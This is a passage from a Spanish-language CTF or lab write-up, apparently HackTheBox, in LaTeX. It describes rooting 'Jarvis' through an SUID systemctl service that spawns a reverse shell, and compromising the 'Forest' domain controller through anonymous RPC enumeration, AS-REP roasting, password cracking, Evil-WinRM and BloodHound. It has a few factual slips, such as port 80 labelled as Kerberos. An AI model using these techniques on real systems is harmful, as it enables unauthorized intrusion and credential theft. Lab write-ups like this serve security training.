Buscamos por binarios SUID mediante la herramienta LinEnum, el cual tendremos que levantar un servidor http en nuestra máquina y descargarla en la del box.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/18.png}
	\caption{Levantamiento del http.server mediante python}
\end{figure}

Entre los archivos SUID encontrados, nos indica que /bin/systemctl es posiblemente de nuestro interés y lo es. Systemctl es una utilidad que nos permite examinar y controlar los servicios que se ejecutan en la máquina por lo general está limitado a solo usuarios root.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/19.png}
	\caption{Archivos SUID}
\end{figure}

En GTFObins se encuentra los comandos que debemos de correr para crear un servicio y que ejecute comandos, en este caso haremos que ejecute la que nos permita obtener una reverse Shell.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/20.png}
	\caption{Configuración del servicio para systemctl}
\end{figure}

Y listo, tenemos conexión mediante usuario root.
\begin{figure}[H]
	\center
	
\includegraphics[width=0.8\textwidth]{images/jarvis/21.png}
	\caption{Obtención del acceso como usuario root}
\end{figure}

Ahora solo queda obtener las flag que se encuentra en el archivo root.txt
\begin{figure}[H]
	\center
	
\includegraphics[width=0.7\textwidth]{images/jarvis/22.png}
	\caption{Acceso como usuario root}
\end{figure}\begin{figure}[H]
	\center
	
\includegraphics[width=0.7\textwidth]{images/jarvis/23.png}
	\caption{Flag del root.txt}
\end{figure}

\subsection{Post Explotación}

\subsection{Hardening}


% ----------------------------Forest-----------------------------------
\clearpage 

\section{Forest}
\subsection{Enumeración}
Iniciamos realizando un escaneo a la máquina objetivo, para lo cual usaremos NMAP. En este caso usaremos los siguientes parámetros:

\begin{itemize}
	\item -sV: Usado para mostrar las versiones de los servicios que corren en cada puerto.
	\item -p-: Usado para indicar que escanee todos los puertos existentes.
	\item -Pn: Usado para indicar al programa que no realice resolución DNS.
\end{itemize}
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/escaneo_nmap.png}
	\caption{Escaneo de la máquina Forest usando NMAP.}
\end{figure}
A partir de lo que muestra la herramienta, se tienen disponibles 24 puertos, entre los cuales, solo algunos nos serán realmente útiles. Entre los puertos más importantes a considerar son:
\begin{itemize}
	\item Puerto 80: Kerberos
	\item Puero 135: Servicio RPC. 
	\item Puerto 445: Servicio SAMBA.
	\item Puerto 389: LDAP.
	\item Puerto 5985: Windows Remote Management (WinRM) 
\end{itemize}
A partir de estos, podemos empezar a deducir que la máquina a la cual vamos a realizar las pruebas contiene un Domain Controller, por la presencia de Kerberos así como LDAP. 

Otra característica a notar es la presencia del servicio SAMBA, el cual nos puede apoyar en caso se hayan compartido archivos de forma pública. 

Finalmente, otro puerto a considerar es el RPC, ya que si se tiene uno no protegido podría tenerse acceso a información muy valiosa del DC.

Se decidió iniciar por SAMBA, sin embargo, no se obtuvo nada de información relevante, así que decidimos proceder con RPC, a lo cual obtuvimos nuestro primer acceso, ya que encontramos que la máquina estaba permitiendo conexiones anonimas.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth/2]{images/forest/conexion_rpc.png}
	\caption{Conexión anónima vía RPC usando RPCCLient.}
\end{figure}

Ya dentro, procedimos a listar los usuarios que se encontraban registrados en dicho DC. 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth/2]{images/forest/usuarios_rpc.png}
	\caption{Listadod de usuarios mostrados por RPCCLIENT.}
\end{figure}

\subsection{Explotación}

Teniendo en cuenta los usuarios encontrados, los almacenamos en un archivo plano para usarlo como entrada en fuerza bruta.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth/2]{images/forest/archivo_userForest.txt.png}
	\caption{Usuarios identificados en el DC.}
\end{figure}

Ahora, con el listado de usuarios del DC, podemos probar una de las vulnerabilidades más comunes, la cual es la de tener usuarios que no requieren pre autenticación con Kerberos, a lo cual es relativamente fácil obtener el TGT de dichos usuarios usando la herramienta GetNPUsers.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/ticket-NPUsers-.png}
	\caption{Obteniendo los TGT de usuarios sin autenticación en Kerberos.}
\end{figure}

A continuación, con el apoyo de John The Riper, podemos intentar obtener la contraseña del usuario svc-alfresco.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/crackeado.png}
	\caption{Utilizando John para romper la contraseña.}
\end{figure}

Ahora probamos que las credenciales obtenidas funcionen con dicho usuario, para ello la usamos en Samba. 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/probando_creds.png}
	\caption{Probando las credenciales de svc-alfresco en samba.}
\end{figure}

Tras la validación, buscamos obtener una shell que nos permita interactuar directamente con el equipo, para ello usamos WinRM, ya que se había identificado inicialmente que estaba disponible. En este caso usamos la herramienta Evil-WinRM para conectarnos.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/conexionConWinRM.png}
	\caption{Conectándonos vía WinRM usando el usuario svc-alfresco.}
\end{figure}

Ahora buscamos el archivo importante, el cual lo encontramos en la carpeta del usuario, específicamente en su escritorio.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/obtenida la hash de alfresco.png}
	\caption{Archivo importante del usuario svc-alfresco.}
\end{figure}


\subsection{Escalamiento de privilegios}

Teniendo en cuenta que estamos frente a un DC, buscamos identificar la forma en cómo llegar hasta el usuario administrador aprovechando los permisos que tiene la cuenta de svc-alfresco. Para facilitar este trabajo, utilizamos la herramienta BloodHound. 

Para utilizar la herramienta BloodHound, primero debemos tener instalada la base de datos Neo4j. Ya instalada, se deberá ejecutar como se muestra a continuación.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/iniciando_neo4j.png}
	\caption{Iniciando Neo4j.}
\end{figure}

Si es la primera vez, será necesario primero iniciar sesión en la dirección web que se muestra en la imagen, e ingresar con las credenciales neo4j:neo4j. Se nos solicitará cambiar la contraseña, cosa que deberemos hacer.


\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/forest/primeraconexionNeo4j.png}
	\caption{Iniciando sesión por primera vez en Neo4j.}
\end{figure}

Posterior a esto, deberemos descargar una herramienta que nos permita obtener los archivos de entrada para BloodHound, dicho archivo es BloodHound.py, ubicado en el siguiente repositorio: https://github.com/fox-it/BloodHound.py.
También será necesario descargar la intefaz gráfica (GUI), para ello nos dirigimos al repositorio: https://github.com/BloodHoundAD/BloodHound/releases. 

\begin{figure}[H]
	\center
